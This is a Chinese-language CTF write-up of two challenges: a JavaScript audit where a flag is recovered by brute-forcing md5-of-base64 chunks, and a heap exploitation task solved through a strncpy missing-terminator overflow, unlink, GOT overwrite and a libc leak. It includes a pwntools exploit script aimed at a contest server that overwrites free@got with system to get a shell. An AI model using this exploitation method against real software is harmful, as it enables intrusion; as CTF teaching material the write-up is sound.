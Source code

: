##21 - COMA WHITE

JS 审计 + 视力大比拼。

先恢复上面压缩混淆了的代码段。非常友好只有那么一小段，否则下面那几个混淆一下再恢复还真不一定看得懂。

然后需要目测下面的那些没混淆的是啥。第一个特征很明显是 b64encode，第二个一看那么多玄学数据看着就像 md5。顺带一提建议把常用的这些东西对空字符串运算的结果都记一下 就立即可以看出来。

所以它的加密方法是 把 flag 分割成若干节，每节 1 或 2 bytes。然后每节分别 `hashlib.md5(base64.b64encode(s).replace('=', '')).hexdigest()`，最后拼接起来。因为最多只有 2 bytes 所以直接 brute force 然后拼接就行。

##23 - 教务处

这道题出的挺好，结构简单但是难度不小，首先要找到漏洞，找到漏洞后要能够 leak，完了以后才是写 exp，然而这三个步骤都很不容易。

程序结构很简单，但是漏洞一直找不到。过了很久（放出 hint 之前）去网上搜了 `strncpy()`，发现这个函数不会在 dest 的最后添加 NULL 字符，那么后面的 `strlen()` 就有可能取到溢出的长度。

于是先用 add 操作 malloc 两个堆，把堆填满，再 free 掉，第二次 malloc 又会到这个堆上，由于 strncpy 不会添加 NULL，所以就跟之前堆空间的字符连起来了， `strlen()` 取到的长度就溢出了。

有了堆溢出之后就是触发 `unlink()` 修改 table， leak 的话只要将 free@got 改成某处的 puts，然后将传进去的参数改为 strchr@got，就可以得到 libc 地址了。最后再改掉 free@got 为 system_addr，传进去的空间写入 '/bin/sh\x00'，就能 getshell 了。

```python
from pwn import *
context(terminal='zsh')
elf = ELF('libc.so.64')
offset = elf.symbols['system']-elf.symbols['strchr']

p = remote('120.55.86.95', 11111)
p.recv()
p.writeline('d812bc7f1441e782d2fd6c4bf8b07842')
p.recvuntil('OK')
p.recvuntil('Change a student\'s information.')

p.writeline('a')
p.write(('01A001B\x00\x00\x00\x00\x00\x00\x00\x00\x00'+p64(0x6020e0)).ljust(0x200, '\x00'))
p.writeline('a')
p.write('09AAAAAAAAA100BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'.ljust(0x200, 'C'))
p.writeline('c')
p.writeline('1')
p.writeline('\x00'*4+p64(0x6020e8))
p.recv()
p.recv()

p.writeline('a')
p.write(('19'+19*'A'+'127'+127*'B'+'\n').ljust(0x200,'C'))
p.writeline('a')
p.write(('19'+19*'A'+'127'+127*'B'+'\n').ljust(0x200,'C'))

for _ in range(5):
    p.writeline('a')
    p.write('09/bin/sh\x00A100BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'.ljust(0x200, 'C'))
    p.recv()

p.writeline('d')
p.writeline('5')
p.recv()

p.writeline('c')
p.writeline('3')
p.writeline((0x83-7)*'D'+p64(0x1d0)+'\xa0')
p.writeline('d')
p.writeline('4')
p.recv()
```